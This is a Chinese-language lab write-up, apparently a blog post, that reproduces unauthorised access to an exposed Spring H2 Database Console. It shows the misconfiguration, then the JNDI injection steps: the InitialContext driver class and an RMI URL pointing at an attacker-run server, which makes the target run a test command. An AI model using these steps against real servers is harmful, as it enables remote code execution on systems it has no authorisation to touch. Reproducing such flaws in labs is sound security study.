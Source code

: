 # H2 Database Console 未授权访问

H2 database是一款Java[内存](https://so.csdn.net/so/search?q=内存&spm=1001.2101.3001.7020)数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

- spring.h2.console.enabled=true
- spring.h2.console.settings.web-allow-others=true

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令



# 漏洞复现

[JNDI注入](https://github.com/su18/JNDI)

通过github项目JNDI注入工具复现

下载工具后进入目录，修改`config.properties`文件，将命令改为`touch /tmp/success`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210618103852255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0VDX0NhcnJvdA==,size_16,color_FFFFFF,t_70)

更改保存后，启动jar程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210618104718447.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0VDX0NhcnJvdA==,size_16,color_FFFFFF,t_70)

访问`http://your_ip:8080/h2-console/`

驱动类内填：

```bash
javax.naming.InitialContext
1
```

JDBC URL内填（即jar程序显示的rmi地址）：

```bash
rmi://172.18.0.1:23456/BypassByEL
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210618102825512.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0VDX0NhcnJvdA==,size_16,color_FFFFFF,t_70)

点击链接后，回到靶机查看

![img](https://img-blog.csdnimg.cn/20210618103759707.png)

